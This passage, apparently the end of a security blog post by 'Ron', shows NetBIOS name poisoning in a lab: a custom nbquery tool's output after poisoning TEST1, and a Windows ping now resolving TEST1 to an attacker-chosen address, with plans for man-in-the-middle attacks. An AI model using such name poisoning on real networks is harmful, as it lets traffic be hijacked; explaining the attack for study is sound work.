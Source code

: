 As a result, if we ask TEST1 for its list of names, it won't have any:

```
$ sudo ./nbquery -d '192.168.1.41' -t NBSTAT
NBSTAT response: recieved 0 names:
(did you poison it with conflicts?)
 * Additional data: 00 0c 29 f9 d9 28 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Now that TEST1 has been poisoned, TEST2 will always end up at our chosen server:

```
C:Documents and SettingsRon>ping TEST1

Pinging TEST1 [1.2.3.4] with 32 bytes of data:
...
```

### Conclusion

Hopefully you've taken away a little bit of information about how NetBIOS names work. My tools in their current state obviously don't do a whole lot, but I envision comining them to perform man-in-the-middle attacks against systems, but that'll be in the future. Stay tuned!

Ron
